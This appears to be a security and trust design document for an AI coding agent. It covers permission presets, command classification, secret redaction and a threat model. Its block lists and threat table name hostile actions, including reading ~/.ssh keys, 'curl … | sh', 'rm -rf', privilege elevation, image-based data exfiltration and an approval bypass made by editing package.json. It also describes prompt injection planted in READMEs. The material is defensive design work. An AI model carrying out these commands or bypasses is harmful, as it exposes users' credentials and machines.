

# Security and Trust

> Status: Agreed baseline. Every item marked **MVP** must be implemented and tested before the first public release (Phase 7 gate).

## 1. Principles

1. **The harness enforces; the model requests.** A tool call is a request. The `PermissionBroker` decides, using policy and the user's answers. Nothing the model writes (including "the user already approved this") changes a decision.
2. **Least privilege per component.** The Workbench cannot read files or secrets. The runtime cannot read secrets from disk. Extensions get nothing by default. Previews cannot reach IPC.
3. **Show the real action.** Approval cards show the exact command, paths or diff, not the model's description of them.
4. **Reversible by default.** Tool edits are checkpointed. Deletes go to a recoverable trash.
5. **Honest about limits.** Jesutobits does not sandbox commands in the MVP. Approving execution means approving code execution with the user's privileges. The UI says so.

Out of scope for the threat model: malware already running as the same OS user, physical access, and how the model provider handles data (mitigated only by provider settings such as `data_collection: "deny"`).

## 2. Trust boundaries

## 3. Credentials (MVP)

- Provider keys are entered in the Workbench and sent once to the Host (`secrets.set`), which stores them in the OS credential store using the `keyring` crate (ADR-0008). The Workbench has no command to read them back.
- The runtime fetches a key through `host.secrets.get` only when it needs to call the provider, keeps it in memory, and registers it with the `SecretRegistry` for redaction.
- Keys never appear in: settings files, SQLite, logs, crash bundles, model context, child-process environments, event payloads, or diagnostic exports. **Canary test:** CI runs a session with a fake key `sk-or-CANARY-...` and fails if the string appears in any file under the app data directory or in any event.
- On Linux without a Secret Service, the user enters the key per session; it lives only in runtime memory.

## 4. Permission model

### 4.1 Risk classes

Each tool call is classified (by the tool's `classify()` and, for commands, the command classifier in 5.3) into one or more classes:

| Class | Meaning | Examples |
|---|---|---|
| `read` | Read inside workspace roots | `read_file`, `search_text`, `git_status` |
| `sensitive_read` | Read a file matching secret patterns (section 6.2) | `read_file .env.local` |
| `write` | Create or modify files inside workspace roots, checkpointed | `edit_file`, `write_file`, visual edits by the agent |
| `destructive` | Remove or overwrite data in ways checkpoints may not cover | `delete_path`, `rm -rf build`, `git checkout -- .` |
| `execute` | Run code: commands, scripts, dev servers, checks | `run_command npm test`, `start_preview` |
| `network` | Known network effect | `npm install`, `npx`, `git fetch`, `curl` |
| `vcs` | Change Git state | `git_commit` |
| `external` | Tools provided by extensions (Stage 3) | `ext.dev.x.create_issue` |
| `outside_workspace` | Touches paths outside workspace roots | any tool with such a path |

### 4.2 Policy presets

The user picks a preset per project (default **Balanced**). The decision for a call is the **strictest** of its classes: `deny` > `ask` > `allow`.

| Class | Cautious | **Balanced** (default) | Autonomous | Restricted (untrusted project) |
|---|---|---|---|---|
| `read` | allow | allow | allow | allow |
| `sensitive_read` | ask | ask | ask | ask |
| `write` | ask | allow | allow | ask |
| `destructive` | ask | ask | ask | ask |
| `execute` | ask | ask, unless a rule matches | allow for check commands and dev servers already approved once in this project; otherwise ask | **deny** |
| `network` | ask | ask | ask | **deny** |
| `vcs` | ask | ask | allow (local commits only) | **deny** |
| `external` | ask | ask | ask | **deny** |
| `outside_workspace` | **deny** | **deny** | **deny** | **deny** |

Prohibited actions (4.3) are denied under every preset.

### 4.3 Prohibited by default

Blocked without an approval card; the model receives `permission_denied` with the reason and the user sees a timeline entry.

| Action | Changeable? |
|---|---|
| Reading or writing outside workspace roots (the user can add extra roots in project settings) | Via extra roots only |
| Reading Jesutobits' own app data, settings, logs, or the OS credential store | **Never** |
| Reading `~/.ssh`, cloud CLI credential folders (`~/.aws`, `~/.azure`, `~/.config/gcloud`), browser profiles, password manager data | **Never** |
| Privilege elevation (`sudo`, `runas`, `doas`, UAC prompts via `Start-Process -Verb RunAs`) | **Never** |
| Persistence and system changes: shell profiles, startup items, scheduled tasks (`schtasks`, `crontab`, `launchctl`), services (`sc`, `systemctl`), registry (`reg`, `Set-ItemProperty HKLM:`), `setx`, firewall (`netsh`), `Set-ExecutionPolicy` | **Never** |
| `git push` (any form), force operations, history rewriting (`rebase`, `reset --hard`, `filter-branch`, `commit --amend`), `git clean -fdx`, branch deletion, `git config --global` | Advanced setting can change `git push` (non-force) to **ask** |
| Publishing: `npm publish`, `pnpm publish`, `yarn npm publish`, `cargo publish`, `docker push` | Advanced setting can change to **ask** |
| Disabling security tools or deleting Jesutobits' checkpoints | **Never** |

### 4.4 Rules and scopes

When the user answers an approval, they can choose:

| Choice | Effect |
|---|---|
| Allow once | This call only |
| Allow for this session | Adds a **session rule** shown on the card before clicking, for example `run_command: npm run test (script fingerprint 3fa1…) in this project` |
| Always allow in this project | Available only for `execute` rules on check commands and dev servers; stored in SQLite; visible and removable in project settings |
| Deny | Model receives `permission_denied` |
| Deny with message | Model receives the user's message as guidance |

Rule constraints:

- Command rules match an **argv prefix of at least two tokens** (program plus subcommand or script name). No wildcards over arbitrary commands.
- For package-manager scripts (`npm run x`, `pnpm x`, `yarn x`), the rule stores a **fingerprint of the script's text** from `package.json` at approval time. If the agent (or anyone) changes the script, the rule stops matching and Jesutobits asks again. This blocks the "edit `package.json`, then run the approved `npm test`" bypass.
- Rules never match commands using `shell: true`, `npx`/`dlx`/`bunx`, or a file the agent created or modified in this session (`node scripts/new.js`). Those always ask, and the card says "This file was written by the agent".
- Rules never apply to prohibited actions.

### 4.5 Enforcement point and approval integrity

- The broker lives in the runtime and is called by the `ToolRunner` before every execution. Tools cannot execute without a `Grant` object the broker produced for that exact `callId` and input hash.
- Approvals are persisted (with decision, scope and rule) **before** execution, so a crash cannot turn an "ask" into a silent replay.
- `permissions.respond` accepts only a pending `permissionId` (random, single use, expires when the turn ends).
- The Workbench is the only caller of `permissions.respond`. Its integrity therefore depends on Workbench hardening (section 8). This is a residual risk (section 16).

## 5. File system and command execution

### 5.1 Overview

All file access goes through `WorkspaceService` (AGENT_HARNESS.md section 6). All processes go through `ProcessSupervisor` (ADR-0011). There is no other path from the agent to the OS.

### 5.2 Path confinement

1. Reject paths with NUL, Windows reserved device names (`CON`, `NUL`, `COM1`...), alternate data streams (`:`), and UNC paths unless the project itself is on a UNC share.
2. Resolve against the project root, normalise, then `realpath` (following symlinks and junctions).
3. Check the real path is inside a workspace root (case-insensitive comparison on Windows and macOS default volumes).
4. For new files, check the real path of the nearest existing parent.
5. Re-check after any `move_path`.

### 5.3 Command classification

The classifier parses `argv` (or, for `shell: true`, tokenises conservatively and treats anything it cannot parse as `execute` + `network` + ask).

| Pattern (program basename, `.cmd`/`.exe` stripped) | Classes |
|---|---|
| `npm`/`pnpm`/`yarn`/`bun` with `install`, `i`, `add`, `ci`, `update`, `remove` | `execute`, `network` (category `installing`) |
| `npm run <s>`, `npm test`, `pnpm <s>`, `yarn <s>` | `execute` (category from script name: `test`, `build`, `lint`, `dev`, else `running`) |
| `npx`, `pnpm dlx`, `bunx`, `yarn dlx` | `execute`, `network` (never rule-matched) |
| `git status/diff/log/show/branch --list` | `read` |
| `git add/commit` | `vcs` |
| `git fetch/pull/clone` | `vcs`, `network` |
| Prohibited Git forms (4.3) | denied |
| `rm`, `del`, `rmdir`, `Remove-Item`, `rimraf` | `destructive` (+ path checks; outside roots denied) |
| `curl`, `wget`, `Invoke-WebRequest`, `Invoke-RestMethod` | `network`, `execute` |
| `bash -c`, `sh -c`, `powershell -Command`, `pwsh -c`, `cmd /c` | treated as `shell: true` |
| `node`, `tsx`, `python`, `deno`, `bun` running a file | `execute` (flag if the file was agent-written) |
| Elevation and system-change programs (4.3) | denied |
| Anything else | `execute` |

Classification is shown on the approval card ("Runs code", "Uses the network", "Deletes files").

### 5.4 Workspace trust (Restricted mode)

- Projects created by Jesutobits are trusted. Opened folders ask once (FR-006).
- Restricted mode: agent may read and (with approval) write; it cannot run commands, start previews, run checks, install or commit. The user can still use the terminal (their own action), with a banner noting the project is untrusted.
- The trust dialog explains concretely: "Opening is safe. Running the dev server, tests or installs executes code from this folder."

### 5.5 Dependency installation

- Always `network` + `execute` → ask under all presets.
- The approval card lists the packages being added (parsed from argv) and warns that packages can run install scripts. It offers **"Install without running scripts"**, which adds `--ignore-scripts` (for npm, pnpm and yarn).
- Lockfile changes are reported in the turn summary as command side effects (ADR-0012).

### 5.6 Agent-generated scripts

Running a file the agent created or modified in this session is always `ask`, shows the file's diff inline on the card, and is never matched by rules.

## 6. Secrets in logs and model context

### 6.1 Redaction

- `SecretRegistry` holds exact values of known secrets (provider keys, Stage 3 extension secrets). Every log line, event payload and model request passes through a masker that replaces them with `[REDACTED:<ref>]`.
- Pattern detectors run on tool outputs before they enter model context: private key blocks, common token formats (`sk-...`, `ghp_...`, `github_pat_...`, `AKIA...`, `xox[bp]-...`, JWT-shaped strings in `.env`-like lines). Matches are masked and the timeline shows "1 possible secret was hidden from the model".
- Model prompts and completions are not logged by default (ARCHITECTURE.md section 10).

### 6.2 Secret-pattern files

`.env`, `.env.*` (except `.env.example`, `.env.sample`), `*.pem`, `*.key`, `*.p12`, `*.pfx`, `id_rsa*`, `id_ed25519*`, `.npmrc` and `.yarnrc.yml` containing auth tokens, `credentials.json`, `*.keystore`. Reading these is `sensitive_read` → ask. The card offers **"Share with values hidden"**, which returns the file with values replaced by `***` (keys kept), useful for configuration questions.

### 6.3 Environment of child processes

Built from an allowlist (ADR-0011). Provider keys and Jesutobits internals are never included. Project `.env` files are read by the project's own tooling, not injected by Jesutobits.

## 7. Network access

- Jesutobits itself contacts only the configured model provider (and the update server, if updates are enabled).
- The agent has no general web tool in the MVP. `fetch_url` (later, FR-060) will be approval-gated per domain and return content labelled untrusted.
- Commands may use the network. Jesutobits detects known network commands (5.3) but cannot block unknown ones without OS sandboxing. This is stated in the approval card for unknown commands ("Jesutobits cannot tell whether this command uses the network").
- Dev servers bind to `127.0.0.1` in instrumented mode. In generic mode, if the dev server's output shows it listening on a LAN address, the preview panel warns that the app is reachable from the local network.

## 8. Workbench hardening

- **Tauri capabilities:** the main window gets only Jesutobits' own commands (`rpc_call`, `pty_*`, `settings_*`, `secrets_set`, `secrets_delete`, `secrets_exists`, `extensions_*`, `dialog_pick_folder`, `app_*`) plus core window and event permissions. No `shell`, `fs` or `http` plugin access from the webview (NFR-008). No remote origins in any capability (RN-05, RN-06, RN-37). This rule is **load-bearing**: Tauri injects its IPC into the preview iframe, and capability URL scoping is what refuses the frame's calls (Spike S3). `capabilities_never_grant_remote_urls` in `apps/desktop/src-tauri/src/lib.rs` fails the build if any capability grants a `remote` URL.
- **CSP (target):** `default-src 'self'; script-src 'self' 'wasm-unsafe-eval'; style-src 'self' 'unsafe-inline'; img-src 'self' data: blob: jesutobits-ext:; font-src 'self' jesutobits-ext:; connect-src` limited to Tauri's IPC endpoints; `frame-src http://127.0.0.1:* http://localhost:* jesutobits-ext:; worker-src 'self' blob:; object-src 'none'; base-uri 'none'; form-action 'none'`. `wasm-unsafe-eval` is needed by the companion renderer (ADR-0006).
- **Markdown:** rendered with raw HTML disabled; links shown with their real URL on hover and opened in the external browser after confirmation for non-HTTPS links; **remote images are never loaded** (placeholder with "Load image from example.com?"). This closes the classic exfiltration channel where injected text makes the model emit ``.
- **Untrusted text** (file contents, logs, bridge strings, extension READMEs) is rendered as text or through the same sanitised Markdown renderer. No `dangerouslySetInnerHTML` outside the sanitiser module (lint rule).

## 9. Audit (MVP)

Per session, the audit view (FR-160) lists: permission requests with decision, scope, rule and timestamp; every command with argv, cwd, exit code and duration; files changed with checkpoint links; prohibited attempts. Stored in SQLite; exportable with the session.

## 10. Preview isolation (MVP)

See ADR-0010 and VISUAL_EDITING.md section 9. In short: cross-origin iframe on `127.0.0.1`, no IPC for frames, strict origin + nonce + schema on postMessage, bridge cannot trigger writes, external navigations open outside Jesutobits, no permissions-policy features granted to the frame.

"No IPC for frames" is enforced by capabilities, not by the IPC being absent. On Windows the frame does get `window.__TAURI_INTERNALS__` and `window.chrome.webview`. Spike S3 showed every command it tries is refused because the capability allows only local URLs, and the fire-and-forget routes (`no-cors` fetch to `ipc.localhost`, `chrome.webview.postMessage`) have no effect (`docs/spikes/S3.md`). Keep `scripts/spikes/s3-run.mjs` passing when Tauri is upgraded.

## 11. Extensions (MVP: Stage 1)

See EXTENSION_SYSTEM.md sections 6 and 7. Stage 1 content is data only; archives are checked for traversal and size; SVG and Lottie inputs are restricted (no scripts, no external references, no Lottie expressions); files are served only from the extension's own folder.

## 12. Prompt injection

Jesutobits assumes injected instructions **will** sometimes reach the model (from READMEs, `AGENTS.md`, dependency code, web pages later, preview text). Defences, in order of strength:

1. **Permissions** (section 4): the injected instruction can only cause actions the policy allows or the user approves.
2. **Exact approval cards** that show real commands and paths, plus "written by the agent" flags.
3. **No exfiltration channels in the UI** (no remote images, no auto-opened links).
4. **Provenance labels** in context (AGENT_HARNESS.md section 4.5) and system prompt rules.
5. **Restricted mode** for untrusted projects.

## 13. Git

- Read operations are automatic. `git_commit` asks (except Autonomous preset) and stages only the listed paths.
- The agent never pushes, rewrites history or changes global config (4.3).
- Jesutobits never commits to the user's repository on its own (ADR-0012).
- Git commands run with `GIT_TERMINAL_PROMPT=0` so credential prompts cannot hang a turn.

## 14. Cancellation and emergency stop

- Stop (button, `Ctrl+.`/`Cmd+.`) cancels the turn, withdraws pending approvals, and stops processes started by the turn within 2 s (FR-061, NFR-025).
- "Stop everything" in the status bar menu also stops all dev servers and background processes for the project.
- Cancellation never leaves partial files (atomic writes).

## 15. Threat model

| # | Scenario | Impact | Mitigations | Residual |
|---|---|---|---|---|
| T1 | Cloned repo's `README.md` tells the agent to read `~/.ssh/id_rsa` and paste it into a file | Key theft | `outside_workspace` and `~/.ssh` prohibited; provenance labels; Restricted mode | Low |
| T2 | Injection asks the agent to run `curl https://x.sh \| sh` | Arbitrary code | Shell commands always ask; network flagged; card shows exact command | User may approve |
| T3 | Malicious dependency's `postinstall` runs during `npm install` | Arbitrary code | Install always asks; "without scripts" option; lockfile diff shown | High if user installs a malicious package (same as any dev workflow) |
| T4 | Agent edits the `test` script, then runs the session-approved `npm test` | Bypass of approval | Script fingerprinting invalidates the rule (4.4) | Low |
| T5 | Preview app posts forged `bridge.selection` or tries Tauri IPC | Spoofed UI, privileged calls | IPC blocked for frames; origin + nonce + schema; bridge cannot write | Spoofed selection only (harmless) |
| T6 | Model output includes `` | Data exfiltration | Remote images never auto-load | Low |
| T7 | Theme SVG with `<script>` or companion Lottie with expressions | Code execution in Workbench | Validator rejects; DOMPurify on load; no `lottie-web` | Low |
| T8 | `.jesutobitspkg` with `../../` paths (zip slip) | Overwrite user files | Host archive checks, staging dir | Low |
| T9 | Agent runs `cat .env` via `run_command` | Secret exposure to provider | Pattern redaction of outputs; `.env` read via tool asks; commands ask | Medium for unknown secret formats |
| T10 | Local process probes Jesutobits to drive the runtime | Unauthorised actions | No listening ports; stdio-only runtime | Low |
| T11 | Agent runs `rm -rf src` | Data loss | `destructive` asks; outside roots denied; command deletions not checkpointed and the card says so | User may approve |
| T12 | Agent attempts `git push --force` | Remote history loss | Prohibited | Low |
| T13 | Symlink in project points to `C:\Users\me` | Escape confinement | `realpath` checks before every access | Low |
| T14 | Loop burns credits | Financial loss | Step, time and cost budgets; loop guard | Low |
| T15 | XSS in the Workbench approves its own requests | Bypass of approvals | CSP, sanitiser-only HTML, no remote content, extensions isolated | Medium (most valuable target) |
| T16 | Generic dev server binds `0.0.0.0` | App exposed on LAN | Warning; instrumented mode binds localhost | Medium |
| T17 | Tampered update | Full compromise | Signed updates with Tauri updater, pinned public key, HTTPS | Low |

## 16. Residual risks and future hardening

- **No command sandbox in the MVP.** Approved commands run with the user's privileges. Future: Windows AppContainer or job-object restrictions, macOS sandbox profiles, Linux bubblewrap/Landlock, integrated at `ProcessSupervisor` (ARCHITECTURE.md section 12).
- **Workbench compromise = approval compromise.** Future: route approvals through a Host-rendered native dialog for high-risk classes, so a compromised webview cannot approve them.
- **Users approving dangerous actions.** Mitigated by clarity, not eliminated. Future: risk scoring and "this looks unusual" hints.
- **Model provider data handling.** Jesutobits defaults OpenRouter `data_collection` to `deny` but cannot verify provider behaviour.
- **Node Permission Model** (RN-17) as defence in depth for the runtime itself is evaluated in Phase 7.
